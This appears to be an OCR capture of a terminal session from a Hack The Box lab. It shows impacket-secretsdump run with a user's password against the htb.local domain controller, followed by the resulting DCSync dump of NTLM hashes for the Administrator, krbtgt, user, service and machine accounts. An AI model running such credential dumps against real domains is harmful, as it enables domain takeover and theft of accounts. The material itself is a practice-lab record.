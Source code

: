 
```
──(kali㉿kali)-[/opt/tools/PowerSploit/Recon]
└─$ sudo impacket-secretsdump 'orlando:password1@10.10.10.161'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
orlando:9601:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::
FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:914336c2480c0591766b24fd4c3b9bf4:::
EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
```